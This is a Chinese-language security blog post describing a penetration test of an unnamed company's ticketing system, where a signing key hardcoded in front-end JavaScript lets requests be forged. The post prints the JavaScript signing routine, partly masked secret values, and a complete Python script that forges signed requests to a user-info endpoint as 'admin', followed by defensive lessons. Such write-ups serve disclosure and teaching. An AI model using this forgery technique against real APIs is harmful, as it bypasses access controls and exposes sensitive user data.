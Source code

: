 #  API签名机制逆向破解实战：从代码审计到全局越权  
原创 tangkaixing  开心网安   2025-07-18 14:58  
  
**免责声明**  
  
由于传播、利用本公众号开心网安所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号开心网安  
及作者不为**此**  
承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除并致歉，谢谢！  
####   
#### 一、漏洞概述  
  
在渗透某企业工单处理系统时，发现其核心API鉴权机制存在严重设计缺陷。发现通过逆向JS签名算法，可完全伪造合法请求签名，  
**绕过全部接口权限验证**  
，直接操作后台敏感数据（如工单、用户接口等）。以下是完整破解技术路径演示👇  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uLpuFLYKHdXvr9gG20jH8kRYRTQG4w9HJ62Bo1cpKiaY1LRKS8PaHO8w4o9NJwRaCgjp7ZHg8ZGUIwaicAticLibSA/640?wx_fmt=png&from=appmsg "")  
#### 二、签名机制深度解析（三步定位致命漏洞）  
  
**1. 关键参数暴露（前端硬编码也是该漏洞成功主要原因）**  
```
// 前端明文存储核心密钥
APP_SIG: "WE$&****#!V",  // 全局固定签名密钥
pwd_salt: "O7Sw0k****#Gc.UjfT8"// 密码盐值暴露
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uLpuFLYKHdXvr9gG20jH8kRYRTQG4w9HL0q6DU1dianFo1xcPtHR9TmclwPBtVnRRcehQQpCTUZRkwFSj5btgibw/640?wx_fmt=png&from=appmsg "")  
  
**2. 签名生成流程（风险设计链）**  
```
function c(t, e, n) {
  e.appcode = "web"; 
  e.rnd = 99999998 * Math.random() + 1; // 伪随机数风险
  e.ts = Date.now(); 
  e.sig = HmacSHA1(  // 致命点：HMAC-SHA1密钥固定
    url + "?" + sortParams(e), // 参数按字母排序拼接
    APP_SIG // 硬编码密钥
  ) 
}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uLpuFLYKHdXvr9gG20jH8kRYRTQG4w9HuNcYicucHzYxY69YkEXlvM1329s3REgRkfwZWAAV9z6sNokGUq4QV1A/640?wx_fmt=png&from=appmsg "")  
  
**3. 存在致命五重安全缺陷：**  
1. **密钥固化**  
：  
APP_SIG  
前端硬编码无动态更新  
  
1. **弱随机源**  
：  
Math.random()  
可预测（CVE-2017-16005类漏洞）  
  
1. **算法透明**  
：签名全流程前端可见  
  
1. **参数未校验**  
：未验证时间戳有效性  
  
1. **盐值泄漏**  
：  
pwd_salt  
暴露导致密码加密可逆  
  
#### 三、伪造攻击脚本（Python实现）  
```
import json
import random
import time
import hmac
import hashlib
from urllib.parse import urlencode
def generate_sig(url, params, app_sig):
    # 处理 URL
    if url.startswith('https://') or url.startswith('http://'):
        url = url.split('/', 3)[-1]
    
    # 添加固定参数
    params['appcode'] = 'web'
    params['rnd'] = int(99999998 * random.random()) + 1
    params['ts'] = int(time.time() * 1000)
    
    # 排序参数并拼接
    sorted_params = sorted(params.items())
    query_string = urlencode(sorted_params)
    
    # 生成签名
    sig_str = url + '?' + query_string
    sig = hmac.new(app_sig.encode(), sig_str.encode(), hashlib.sha1).hexdigest()
    
    # 构造最终的 URL
    final_url = f"/xxx-xxx-xxx{url}?{query_string}&sig={sig}"
    return final_url
# 示例用法
url = '/getUserInfo'
params = {
    'ageNum': 1,
    'pageSize': 4,
    'loginName': 'admin',
    'uat': 'e9a2680769af42cb89bc033ba40946f4' 
}
app_sig = 'WE$&******#!V'  # 从提供的 JavaScript 代码中获取
final_url = generate_sig(url, params, app_sig)
print(final_url)
```  
  
验证展示  
getUserInfo接口，其余接口就不展示涉及敏感数据太多，该漏洞已修复。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uLpuFLYKHdXvr9gG20jH8kRYRTQG4w9H7Y6ibxCdI7z5HnSLsJbuVleicceFAt6rz9STzaQqfntFVAibDpibAozbKw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uLpuFLYKHdXvr9gG20jH8kRYRTQG4w9HamrTzaZjOtvfNqBwRDWeiajxoa0icJbBbvC1kZ4qzMQERTygS9LME0kA/640?wx_fmt=png&from=appmsg "")  
#### 四、总结  
  
该漏洞案例暴露了API签名中典型的「前端信任」误区：  
- 🔓 固定密钥 + 透明算法 = 攻击者的万能钥匙  
  
- ⏱️ 时间戳不校验使重放攻击长期有效  
  
- ⚠️ 前端安全绝不能依赖代码混淆  
  
> **防御核心**  
：签名密钥必须存于安全环境（HSM/可信服务端），遵循  
**零信任原则**  
才是保障API安全的根本路径。  
  
#### ps：因为现在在HW，更新比较慢等结束后，尽量做到一周一更，感谢各位看官！！！  
  
  
  
